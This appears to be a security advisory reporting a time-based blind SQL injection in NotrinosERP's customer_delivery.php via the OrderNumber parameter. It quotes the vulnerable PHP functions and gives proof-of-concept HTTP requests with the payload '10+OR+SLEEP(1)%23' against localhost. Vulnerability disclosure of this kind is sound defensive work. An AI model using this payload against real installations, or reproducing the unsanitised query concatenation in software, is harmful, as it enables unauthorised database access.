 # Description
The endpoint **/sales/customer_delivery.php** is vulnerable to Blind SQL Injection (Time-based) via the GET parameter **OrderNumber**. This endpoint can be triggered through the following menu: Sales - Sales Order Entry - Place Order - Make Delivery Against This Order. From the source code perspective, the endpoint will execute the **adjust_shipping_charge** function in the **\sales\customer_delivery.php** file line number 107. As shown in the code snippet below, the OrderNumber parameter is taken directly from the query string and passed into the function without any sanitization or escaping.


```
adjust_shipping_charge($ord, $_GET['OrderNumber']);
```



The adjust_shipping_charge function itself can be found in the **\sales\includes\db\sales_delivery_db.inc** file line number 203. In that function the OrderNumber parameter or $trans_no is concatenated directly into the SQL query.

```
function adjust_shipping_charge(&$delivery, $trans_no) {
	$sql = "SELECT sum(ov_freight) as freight FROM ".TB_PREF."debtor_trans WHERE order_ = $trans_no AND type = " . ST_CUSTDELIVERY . " AND debtor_no = " . $delivery->customer_id;
	$result = db_query($sql, 'Can not find delivery notes');
```

This allows the attacker to inject malicious OrderNumber payloads to execute the malicious SQL query.

# Proof of Concept

Triggering time delays with MySQL sleep function.

Normal request will take around 200 milis (0.2 seconds) response time

```
GET /NotrinosERP/sales/customer_delivery.php?OrderNumber=10 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/NotrinosERP/sales/sales_order_entry.php?AddedID=12
Cookie: Notrinos2938c152fda6be29ce4d5ac3a638a781=8s9gl1g6fphudemau5ul3polro; FAinstall=n916ogdqa12ni92dlhmgqiv7gt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

The following malicious request with OrderNumber parameter set to `10+OR+SLEEP(1)%23` will take around 14000 milis (14 seconds) response time.

```
GET /NotrinosERP/sales/customer_delivery.php?OrderNumber=10+OR+SLEEP(1)%23 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/NotrinosERP/sales/sales_order_entry.php?AddedID=12
Cookie: Notrinos2938c152fda6be29ce4d5ac3a638a781=8s9gl1g6fphudemau5ul3polro; FAinstall=n916ogdqa12ni92dlhmgqiv7gt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

Note: The orderNumber (e.g., 10) need to be valid/existing order number.

